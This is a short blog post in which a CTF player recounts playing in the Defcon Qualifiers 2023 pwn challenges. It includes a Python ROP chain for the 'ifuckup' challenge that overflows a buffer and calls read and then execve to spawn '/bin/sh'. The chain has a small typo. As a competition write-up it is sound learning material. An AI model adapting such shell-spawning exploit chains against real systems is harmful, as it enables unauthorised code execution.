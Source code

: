 +++
title = "Defcon Qualifiers 2023!"
tags = ["PWN", "Defcon"]
description = "I played with a team of about 50 CTF players during defcon Qualifiers 2023!"
date = "May 27th"
author = "GoldenBoy"
#do not include @ cover = "" tags = ["", ""] keywords = ["", ""] description = "" showFullContent = false readingTime = false hideComments = false color = "" #color from the theme settings 
+++

# Defcon
While this post does not contain any specific information regarding the challenges, I wanted to mention here that I played in this year's Defcon Qualifiers.

It was a lot of fun, and I learned a lot. In particular, I learned about how programs are linked together at compile time to form an elf binary, as well as some of the cool things c programs can do! 

I helped out with the pwn side of about 7 challenges, including ifuckup, open house, and 5 of the live challenges.

### Open House
for open house, one of my teammates wrote an [excelent writeup](https://toasterpwn.github.io/posts/defcon-ctf-2023-qualifiers/) that I recommend you check out!

### ifuckup
Regarding ifuckup, I helped out in a very small way. In short, my teammates figured out a way to break the prng used to generate the random address of the stack and code base. So, I just had to build a rop chain that spawns a shell using syscalls.

This took a bit of time, but was pretty easy, considering there is a syscall wrapper function available

```python
    syscall_wrapper_offset = 0x102d
    base = 0x0 #leaked by teammates
    pop4_ret = 0x10c4
    bin_sh_off = 0x3730

    #offset at 22 for eip
    rop_chain = b"A"*22
    rop_chain += p32(base + syscall_wrapper_offset) #call the syscall wrapper, so the stack is passed as arguments
    rop_chain += p32(base + pop4_ret) #remove junk on return
    rop_chain += p32(3) #read
    rop_chain += p32(0) #stdin
    rop_chain += p32(base + bin_sh_off) #ptr to a writable section in memory
    rop_chain += p32(11) #bytes to read
    rop_chain += p32(base + syscall_wrapper_offset) #call again
    rop_chain += p32(0) #padding
    rop_chai += p32(11) #execve
    rop_chain += p32(base + bin_sh_off) #ptr to bin sh
    rop_chain += p32(0) #argv
    rop_chain += p32(0) #envp
    rop_chain += p32(0)*7 + b"\x00\x00" #pad it to fit 100 chars

    r.sendline(rop_chain) #send initial chain
    r.sendline(b"/bin/sh"+p32(0)) #send the input to be read by crafted syscall
```

Once again, I want to make clear that this would not have been possible without the genius of our crypto players! Great work Shadwwws, ContronThePanda, vishiswoz, Quasar, and especially Genni!

All in all, I'm just happy that I could help our team solve the challenge! Even if it was only though a small little piece.

If one of my teammates releases a full writeup of the challenge I will link to it here!

### Conclusion
I am looking forward to playing again next year, hopefully after I get better at reverse engineering!

Our team placed 15th and the top 12 teams qualify :(

![failure to launch](defcon_stats.png)
